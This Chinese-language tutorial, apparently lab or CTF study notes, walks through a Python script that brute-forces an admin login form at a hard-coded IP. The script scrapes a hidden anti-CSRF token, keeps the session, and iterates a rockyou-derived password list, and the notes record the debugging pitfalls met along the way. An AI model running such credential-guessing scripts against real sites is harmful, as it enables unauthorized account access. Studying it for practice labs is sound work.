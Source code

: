 # 1.python request模块进行破解

1. 今日份目标：暴力破解成功

2. 流程：使用python进行任务



## 2.步骤如下

1. 用request模块请求url
2. 对于返回包进行切片操作，获取其中的token值
3. 将获取到的token值与字典一起发送进行暴力破解





# 3.步骤开始

[参考网址](<http://docs.python-requests.org/zh_CN/latest/user/quickstart.html>)

[参考网址1：用来request的用法](<https://blog.csdn.net/LOLITA0164/article/details/80176996>)

[参考网址2：最终实现方法](<https://blog.csdn.net/Danielntz/article/details/51861168>)

[参考网址3:获取token](eed1183184514fde0ef6310575f14458)

## 3.1Token获取代码如下：

```txt
import urllib
import re
from bs4 import BeautifulSoup
from distutils.filelist import findall

host = "http://119.29.175.97/c/hdyzma/"

page = urllib.request.urlopen(host)
contents = page.read()

soup = BeautifulSoup(contents,"html.parser")
#soup的用法

print(soup.find('input',style='display:none')['value'])
#这里用法 是  find后面一个参数是标签，然后找到特殊的字符‘style=none’，最后获取其中的value值

```

## 3.2 字典取list

[参考网址1：编码问题](<https://www.cnblogs.com/mengyu/p/6638975.html>)



---

坑点二：文件操作问题 [参考网址](<https://www.cnblogs.com/zarr12steven/p/6206600.html>)

遇到的情况：

Traceback (most recent call last):
  File "03_crake.py", line 5, in <module>
    get = f.readline()
io.UnsupportedOperation: not readable

解决方法：open函数里 'a' 改为'r'

---

---

坑点三：rockyou.txt出现编码问题

原因：rockyou文本太大，里面有一下密码会导致编码出错无法读取之类的

解决办法：新建一个simple文本，填入大概100个密码

---

---

坑点四：发包之后显示token错误

原因：发的包里没有sessionid

解决办法：加进去

解决代码：`s = requests.session()`

​			`s.get   s.post`

---

## 3.3 循环

`for get in gets`





# 4. 完成！

最后代码如下：

```txt

import urllib
import re
from bs4 import BeautifulSoup
from distutils.filelist import findall

import requests

gets = open("C:/Users/Elliot/Desktop/python_req_crack/simple.txt","r").read().splitlines()

host = "http://119.29.175.97/c/hdyzma/"

s = requests.session()


for get in gets:
    contents = s.get(host,proxies={'http': 'http://127.0.0.1:8080'}).content
    soup = BeautifulSoup(contents, "html.parser")
# soup的用法
    token = soup.find('input', style='display:none')['value']

    #print(token)


#for line in f.readlines():

    print(get)
   # print(line)

#这里用法 是  find后面一个参数是标签，然后找到特殊的字符‘style=none’，最后获取其中的value值


    url = host+'welcome.php'
    d = {'name': 'admin','password':get,'token':token }
    r = s.post(url, data=d,proxies={'http': 'http://127.0.0.1:8080'})
    r.encoding = 'UTF-8'
    print(r.text)
```



